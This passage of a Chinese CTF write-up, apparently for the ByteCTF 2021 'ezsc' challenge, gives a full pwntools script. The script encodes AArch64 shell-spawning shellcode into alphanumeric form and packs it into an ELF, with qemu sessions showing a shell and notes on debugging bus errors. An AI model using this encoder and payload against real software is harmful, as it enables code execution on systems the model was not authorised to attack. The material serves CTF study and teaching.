 使用pwntools的make_elf可将shellcode封成elf直接测试，通过后可以使用题目测试：

```python
➜  python3 exp.py          
➜  chmod +x ./shellcode    
➜  qemu-aarch64 ./shellcode
$ ls
exp.py	gen.php  payload.bin  shellcode  shellcode.bin	shellcode.bin.tmp  shellcode.txt
➜  qemu-aarch64 -L /usr/aarch64-linux-gnu  ./ezsc ./shellcode.txt
Run!
$ ls
exp.py	gen.php  payload.bin  shellcode  shellcode.bin	shellcode.bin.tmp  shellcode.txt
```

另外如果直接使用题目二进制进行qemu调试可能会出现bus error的错误：

- 赛后和朋友分析排错发现首先是pwndbg的锅
- 撤掉pwndbg后会由于非法访存死掉，此内存是mmap的空间
- 分析可能是因为mmap的private或者由于文件大小不足导致操作系统没有真正分配内存
- 但正常情况下应该会有缺页中断来处理此错误，所以猜测可能是qemu实现等问题

## 一体

原论文给出的代码不便于工具化，分析那段php其实就是个类似hex的编码，python完整工具实现如下：

```python
from pwn import *
context(arch='aarch64',os='linux')

def encode_shellcode(shellcode):
    head  = 'jiL0JaBqJe4qKbL0kaBqkM91k121sBSjsBSjb2Sjb8Y7R1A9'
    head += 'Y5A9Jm01Je0qrR2J9O0r9CrJyI38ki01ke0qBh01Bd0qszH6'
    tail  = 'Z3Zj'*77 + 'szO6'
    s = ''
    for i in shellcode.hex():
        s += chr(int(i,16)+0x40)
    s = s.replace('@','P').ljust(978*4,'B')
    return (head + s + tail)

shellcode = encode_shellcode(asm(shellcraft.sh()))
shellcode = shellcode.ljust(0x3000,'B')

f = open("shellcode",'wb')
f.write(make_elf(shellcode.encode()))
f.close() 
```

测试成功：

```c
➜  python3 exp.py          
➜  chmod +x ./shellcode    
➜  qemu-aarch64 ./shellcode
$ 
```

- [ByteCTF 2021 writeup（官方WP）](https://bytedance.feishu.cn/docs/doccntSbxsYPGEXw7wLP0TY73df#)
- [ByteCTF 2021 Final Master of HTTPD && exsc 题解](https://eqqie.cn/index.php/archives/1888)